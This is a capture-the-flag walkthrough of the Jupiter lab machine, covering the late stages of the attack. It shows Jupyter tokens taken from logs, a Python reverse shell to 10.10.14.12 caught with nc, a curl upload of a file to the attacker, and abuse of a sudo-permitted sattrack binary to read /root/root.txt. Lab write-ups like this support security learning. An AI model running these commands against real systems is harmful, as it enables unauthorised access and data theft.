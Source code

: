 Here we have a webapp which prompt us for a token or password but we don't have anything. I have tried to create one but it doesn't work. Looking for files for the name notebook or jupyter we found the following

```bash
juno@jupiter:~$ find / -name *notebook* 2>/dev/null
[SNIP]
juno@jupiter:~$ find / -name *jupyter* 2>/dev/null
/opt/solar-flares/logs/jupyter-2023-05-04-20.log
/opt/solar-flares/logs/jupyter-2023-05-30-53.log
/opt/solar-flares/logs/jupyter-2023-05-04-31.log
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-04-13-43.log
/opt/solar-flares/logs/jupyter-2023-05-04-07.log
/opt/solar-flares/logs/jupyter-2023-03-10-42.log
/opt/solar-flares/logs/jupyter-2023-05-04-08.log
/opt/solar-flares/logs/jupyter-2023-05-04-06.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-05-04-57.log
/opt/solar-flares/logs/jupyter-2023-08-28-19.log
/opt/solar-flares/logs/jupyter-2023-06-07-05.log
/opt/solar-flares/logs/jupyter-2023-04-14-27.log
/opt/solar-flares/logs/jupyter-2023-06-06-39.log
/opt/solar-flares/logs/jupyter-2023-05-04-43.log
/opt/solar-flares/logs/jupyter-2023-05-05-54.log
/opt/solar-flares/logs/jupyter-2023-05-04-02.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-05-04-45.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-05-04-04.log
/opt/solar-flares/logs/jupyter-2023-05-05-03.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-05-30-46.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
[SNIP]
```

So lets check the log files located in `/opt/solar-flares/logs` folder

```bash
juno@jupiter:~$ ls /opt/solar-flares/logs/
jupyter-2023-03-08-14.log  jupyter-2023-03-10-25.log  jupyter-2023-05-04-07.log  jupyter-2023-05-05-03.log  jupyter-2023-03-08-36.log  jupyter-2023-03-10-42.log  jupyter-2023-05-04-08.log  jupyter-2023-05-05-54.log  jupyter-2023-03-08-37.log  jupyter-2023-04-13-43.log  jupyter-2023-05-04-20.log  jupyter-2023-05-30-46.log  jupyter-2023-03-08-38.log  jupyter-2023-04-14-27.log  jupyter-2023-05-04-31.log  jupyter-2023-05-30-53.log  jupyter-2023-03-09-11.log  jupyter-2023-05-04-02.log  jupyter-2023-05-04-43.log  jupyter-2023-06-06-39.log  jupyter-2023-03-09-24.log  jupyter-2023-05-04-04.log  jupyter-2023-05-04-45.log  jupyter-2023-06-07-05.log
jupyter-2023-03-09-59.log  jupyter-2023-05-04-06.log  jupyter-2023-05-04-57.log  jupyter-2023-08-28-19.log
```

Lets try with the most recent

```bash
juno@jupiter:~$ cat /opt/solar-flares/logs/jupyter-2023-08-28-19.log
[SNIP]
http://localhost:8888/?token=db638ffcd64318435c2f0c0d042c02b495964bf20842e664
http://127.0.0.1:8888/?token=db638ffcd64318435c2f0c0d042c02b495964bf20842e664
 ```

And we are in

![[Pasted image 20230828195230.png]]

Now we can execute python code clicking `New > Python 3`. Execute a reverse shell code

```bash
import os,pty,socket;s=socket.socket();s.connect(("10.10.14.12",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")

--------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.216] 58020
$ whoami
jovian
```

And we have move laterally to the user jovian. Checking for sudoers we found the following

```bash
jovian@jupiter:/opt/solar-flares$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack

jovian@jupiter:/opt/solar-flares$ /usr/local/bin/sattrack
Satellite Tracking System
Configuration file has not been found. Please try again!
```

Lets find something the config file

```bash
vian@jupiter:/opt/solar-flares$ strings /usr/local/bin/sattrack | grep -i conf 
/tmp/config.json
Configuration file has not been found. Please try again!
tleroot not defined in config
updatePerdiod not defined in config
station not defined in config
name not defined in config
lat not defined in config
lon not defined in config
hgt not defined in config
mapfile not defined in config
texturefile not defined in config
tlefile not defined in config
su_lib_log_config
_GLOBAL__sub_I__Z6configB5cxx11
_Z14validateConfigv
```

We find that the app points to a  `config.json` file, lets find it

```bash
jovian@jupiter:/opt/solar-flares$ find / -name config.json 2>/dev/null
/usr/local/share/sattrack/config.json
/usr/local/lib/python3.10/dist-packages/zmq/utils/config.json
jovian@jupiter:/opt/solar-flares$ cat /usr/local/share/sattrack/config.json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://celestrak.org/NORAD/elements/weather.txt",
                "http://celestrak.org/NORAD/elements/noaa.txt",
                "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

So copy it to the folder where the app is looking

```bash
jovian@jupiter:/opt/solar-flares$ cp /usr/local/share/sattrack/config.json /tmp/config.json
```

Execute the app and watch what happen

```bash
jovian@jupiter:/opt/solar-flares$ /usr/local/bin/sattrack
Satellite Tracking System
Get:0 http://celestrak.org/NORAD/elements/weather.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/noaa.txt
Could not resolve host: celestrak.org
Get:0 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
Satellites loaded
No sats
```

It is downloading the resources that are specified in the json file, so lets modify the json file to retrieve the root.txt file. Copy the json file to the attacker machine and then move it to the tmp folder in the server

```bash
┌──(kali㉿kali)-[~/Documents/Resources/upl
└─$ sudo python3 -m uploadserver 443 --ser
[sudo] password for kali: 
File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https

-------------

jovian@jupiter:/opt/solar-flares$ curl -X POST https://10.10.14.12/upload -F 'files=@/usr/local/share/sattrack/config.json' --insecure
```

Here is how the modified config.json file looks

```bash
┌──(kali㉿kali)-[~/Documents/Resources/uploadServer/https]
└─$ cat config.json 
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "file:///root/root.txt"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

Upload to the server and execute the app again with root privileges

```bash
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack
Satellite Tracking System
Get:0 file:///root/root.txt
Satellites loaded
No sats
jovian@jupiter:/tmp$ find / -name root.txt 2>/dev/null
/tmp/tle/root.txt
jovian@jupiter:/tmp$ cat /tmp/tle/root.txt
a5f1a1bf880304ecd89b9c70cfe0b13f
```

And we have the root flag!